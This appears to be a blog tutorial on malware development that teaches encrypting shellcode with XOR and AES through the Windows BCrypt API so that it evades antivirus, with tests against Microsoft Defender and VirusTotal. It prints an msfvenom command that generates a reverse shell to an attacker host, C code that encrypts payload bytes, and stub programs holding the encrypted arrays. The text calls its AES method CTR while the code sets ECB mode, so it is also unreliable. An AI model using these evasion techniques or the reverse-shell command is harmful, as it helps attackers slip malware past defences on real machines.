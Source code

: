 > Today we are going to learn what is encryption and why do we need it. And we'll also test how undetectable is our program. You don't have to become cryptographer to learn malware development, so take a chill pill and enjoy..

# Prerequisites
Do yourself a favor and learn the following topics before staring
1. **Encryption:** Symmetric vs. Asymmetric
2. **Basic Terms:** Cipher, Ciphertext, Key
3. **Modes of AES:** CTR, CBC, CFB, OFB, GCM etc

*Entropy* - Entropy refers to the randomness or unpredictability of a program. High entropy makes it harder for antivirus (AV) software to analyze or flag your binary.
Ways to increase entropy:
- Encrypting or packing payloads
- Inserting junk instructions
- Control flow obfuscation

*XOR* - A basic encryption method that performs a binary XOR operation on each byte. It’s fast and simple but weak — easy to reverse and often detected by AVs.

| A   | B   | output |
| --- | --- | ------ |
| 0   | 0   | 0      |
| 0   | 1   | 1      |
| 1   | 0   | 1      |
| 1   | 1   | 0      |

*Heuristic detection* - A malware detection technique where the AV watches the program’s behavior and patterns instead of relying on fixed signatures.
# Payload Encryption
Encrypting your payload boosts entropy and reduces static signature detection. But beware: **encryption alone doesn’t guarantee evasion**, especially if the rest of the binary has red flags.

### XOR
XOR is simple and fast, but unreliable for real evasion — **easily reversible** and frequently flagged by AV.

1. Now it's self explanatory what the code is doing, it's getting the all the bytes from the variable shellcode and XORing it with the key.
2. Mind that the `BYTE` is an windows datatype, so have to import `windows.h`.
```c
#include <stdio.h>
#include <windows.h>

// this is an linux reverse shell
// msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.2 LPORT=4444 -f c

void main() {
	unsigned char shellcode[] = 
	"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50"
	// Make your own shellcode
	"\xff\xd5";

	BYTE key = 0x80;
	unsigned char EncryptedShellcode[sizeof(shellcode)];

	for(int i=0; i<sizeof(shellcode); i++)
	{
		EncryptedShellcode[i] = shellcode[i] ^ (key + i);				
	}
	
	for(int i=0; i<sizeof(EncryptedShellcode); i++)
	{
		printf("0x%02X, ",EncryptedShellcode[i]);
	}
	
}
```

3. Now copy the output of the above code and just place it in the `buf` variable and try running it. We are testing this against windows defender.
```c
#include <stdio.h>
void main(){

// payload is XORed

  unsigned char buf[] = {0x7C, 0x69, 0x00, 0x83, 0x84, 0x85, 0xE6, 0x0E, 0x6D, 0xB8,
  // XORed shellcode here
  0xD1, 0xD5, 0xC0, 0x92, 0x3D, 0x16, 0xC4};

  printf("[+] Suckcess ");
  getchar();

}
```

### AES-CTR
AES-CTR means AES encryption in CTR (counter) mode. It's much better than XOR.
![your internet sucks image not loaded](/images/PayloadEncryption-1.png)
- **Nonce (IV)** - A pseudo-random initialization vector
- **Key** - Your symmetric encryption key
- **counter**  - Increments per block (0, 1, 2...)

AES encrypts `IV || counter` with the key to generate a **keystream**, which is then **XORed with the plaintext** to produce the ciphertext.

We will use [Windows API](https://learn.microsoft.com/en-us/windows/win32/seccng/typical-cng-programming?source=recommendations) to make our cipher. we will use Bcrypt to import the necessary functions to encrypt our payload.
1. Generate shellcode with the following command
   `msfvenom -p windows/x64/messagebox TEXT="Hello" -f c -a x64`
2. As always help yourself with the docs to understand the meaning of functions.

```c
#include <stdio.h>
#include <windows.h>
#include <bcrypt.h>

int main() {
    BCRYPT_ALG_HANDLE algoHandler = NULL;
    BCRYPT_KEY_HANDLE keyHandler = NULL;
    UCHAR keyObject[654] = {0};
    UCHAR key[128] = {0};
    UCHAR Encrypted[514] = {0};
    DWORD cbEncrypted = 0;

    UCHAR data[] =
        "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50"
        "\xff\xd5"; // Your shellcode

    // Generate random key
    BCryptGenRandom(NULL, key, sizeof(key), BCRYPT_USE_SYSTEM_PREFERRED_RNG);

    // Initialize algorithm
    BCryptOpenAlgorithmProvider(&algoHandler, BCRYPT_AES_ALGORITHM, NULL, 0);
    BCryptSetProperty(algoHandler, BCRYPT_CHAINING_MODE, (PUCHAR)BCRYPT_CHAIN_MODE_ECB,
                      sizeof(BCRYPT_CHAIN_MODE_ECB), 0);

    // Generate key handle
    BCryptGenerateSymmetricKey(algoHandler, &keyHandler, keyObject,
                               sizeof(keyObject), key, sizeof(key), 0);

    // Encrypt
    BCryptEncrypt(keyHandler, data, sizeof(data), NULL, NULL, 0,
                  Encrypted, sizeof(Encrypted), &cbEncrypted, BCRYPT_BLOCK_PADDING);

    // Print encrypted shellcode
    printf("[+] Encrypted data:\n");
    for (DWORD i = 0; i < cbEncrypted; i++) {
        printf("0x%02X, ", Encrypted[i]);
    }

    // Cleanup
    BCryptDestroyKey(keyHandler);
    BCryptCloseAlgorithmProvider(algoHandler, 0);
}
```
3. **Bonus tip** - Always look out for the size of the `KEY` and `KEY_OBJECT`  as they vary for every algo and if you don't follow them, there won't be any errors and you'll waste hours of your time. just like I did😑. You can use something like this to verify it
```c
// Verify key object size
    DWORD cbKeyObject = 0;
    status = BCryptGetProperty(algoHandler, BCRYPT_OBJECT_LENGTH, (PUCHAR)&cbKeyObject, sizeof(DWORD), &cbData, 0);
    if (!BCRYPT_SUCCESS(status)) {
        printf("BCryptGetProperty (object length) failed: 0x%08X\n", status);
        BCryptCloseAlgorithmProvider(algoHandler, 0);
        return 1;
    }
    if (sizeof(keyObject) < cbKeyObject) {
        printf("Key object buffer too small: need %lu bytes\n", cbKeyObject);
        BCryptCloseAlgorithmProvider(algoHandler, 0);
        return 1;
    }
```
4. So now we test this against the `Microsoft Defender`
```c
#include <stdio.h>

void main(){
    unsigned char buf[] = {0x54, 0xAF, 0x96, 0x81, 0x0C, 0x32, 0xA1, 0x37, 0xB9, 0x81,
    // Make your own shellcode
    0xAB, 0xA7 };

    printf("[+] Suckcess");
    getchar();
}
```
![your internet sucks image not loaded](/images/PayloadEncryption-2.png)
# Why this doesn't work ??
## AES-CTR / XOR doesn't work against Virustotal ??
![your internet sucks image not loaded](/images/PayloadEncryption-3.png)
Still this is a pretty good detection rate but we need to understand why even those 3 AV flags our malware. It's because - 
- **Huge arrays of bytes** sitting idle is suspicious.
- AVs pre-index common shellcode **and their XOR/AES variants**.
- **High entropy** from encrypted blobs makes binaries stand out.

## Can We Beat VirusTotal?
Yes we can, but I think we should worry more about writing malware first 😂. will cover this after some time.